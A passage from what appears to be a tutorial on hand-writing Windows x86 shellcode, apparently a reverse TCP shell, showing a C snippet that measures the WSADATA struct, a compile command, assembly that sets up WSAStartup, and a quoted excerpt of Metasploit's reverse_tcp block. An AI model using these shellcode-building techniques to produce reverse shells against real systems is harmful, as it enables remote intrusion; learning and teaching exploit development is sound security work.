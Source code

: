 I wrote a quick and dirty C script to find it out:

~~~
#include<stdio.h>
#include<winsock2.h>
 
int main(int argc , char *argv[])
{
    WSADATA wsa;
    printf("%x", sizeof(wsa));
 
    return 0;
}
~~~

And compile it with:

    i686-w64-mingw32-gcc winsock.c -o shared/winsock.exe -lws2_32

![1-WSAData size]({{ "/assets/media/manualshellcode/shellcode_wsadatasize.png" | absolute_url }})

With that in mind we can now set 2.2 as the `wVersionRequired` (check [MS docs](https://docs.microsoft.com/en-us/windows/desktop/api/winsock/nf-winsock-wsastartup) for more) and write the following code:

~~~
.callWSAStartup:
	xor ebx, ebx			;clear ebx
	mov bx, 0x0190			;set the lower bytes of ebx to the size of WSAData struct
	sub esp, ebx			;open space for receiving the WSAData struct
	push esp			;save a pointer to the WSAData struct
	xor ecx, ecx			;clear ecx
	mov cx, 0x0202			;set the lower bytes of ecx to the version of winsock (2.2)
	push cx				;push wVersionRequired (2.2)

	call eax			;call WSAStartup(MAKEWORD(2, 2), wsadata_pointer)
~~~

Lets put everything together and see how it goes inside a debugger:

![2-dbg4]({{ "/assets/media/manualshellcode/shellcode_dbg4.png" | absolute_url }})

According to [MS docs](https://docs.microsoft.com/en-us/windows/desktop/api/winsock/nf-winsock-wsastartup):

> If successful, the WSAStartup function returns zero. Otherwise, it returns one of the error codes listed below.

Cool, it seems like we are all set to call WSAStartup. For now, lets check how does [Metasploit's reverse_tcp](https://github.com/rapid7/metasploit-framework/blob/76954957c740525cff2db5a60bcf936b4ee06c42/external/source/shellcode/windows/x86/src/block/block_reverse_tcp.asm) does it:

~~~
  mov eax, 0x0190        ; EAX = sizeof( struct WSAData )
  sub esp, eax           ; alloc some space for the WSAData structure
  push esp               ; push a pointer to this stuct
  push eax               ; push the wVersionRequested parameter
~~~
